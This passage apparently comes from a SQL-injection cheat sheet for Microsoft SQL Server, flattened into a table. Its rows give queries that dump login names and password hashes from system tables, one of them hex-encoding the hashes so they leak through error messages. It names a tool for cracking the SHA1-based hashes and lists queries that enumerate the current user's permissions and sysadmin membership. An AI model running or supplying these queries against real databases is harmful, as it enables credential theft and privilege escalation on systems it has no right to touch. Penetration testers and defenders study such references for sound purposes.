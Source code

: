 |                              	| SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins — priv, mssql 2000.  Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.                                                                                                                                                                                                                                                                                                     	|
|                              	| SELECT name, password_hash FROM master.sys.sql_logins — priv, mssql 2005;                                                                                                                                                                                                                                                                                                                                                                                                                             	|
|                              	| SELECT name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins — priv, mssql 2005                                                                                                                                                                                                                                                                                                                                                                                         	|
| Password Cracker             	| MSSQL 2000 and 2005 Hashes are both SHA1-based.  phrasen|drescher can crack these.                                                                                                                                                                                                                                                                                                                                                                                                                    	|
| List Privileges              	| – current privs on a particular object in 2005, 2008                                                                                                                                                                                                                                                                                                                                                                                                                                                  	|
|                              	| SELECT permission_name FROM master..fn_my_permissions(null, ‘DATABASE’); — current database                                                                                                                                                                                                                                                                                                                                                                                                           	|
|                              	| SELECT permission_name FROM master..fn_my_permissions(null, ‘SERVER’); — current server                                                                                                                                                                                                                                                                                                                                                                                                               	|
|                              	| SELECT permission_name FROM master..fn_my_permissions(‘master..syslogins’, ‘OBJECT’); –permissions on a table                                                                                                                                                                                                                                                                                                                                                                                         	|
|                              	| SELECT permission_name FROM master..fn_my_permissions(‘sa’, ‘USER’);                                                                                                                                                                                                                                                                                                                                                                                                                                  	|
|                              	| –permissions on a user– current privs in 2005, 2008                                                                                                                                                                                                                                                                                                                                                                                                                                                   	|
|                              	| SELECT is_srvrolemember(‘sysadmin’);                                                                                                                                                                                                                                                                                                                                                                                                                                                                  	|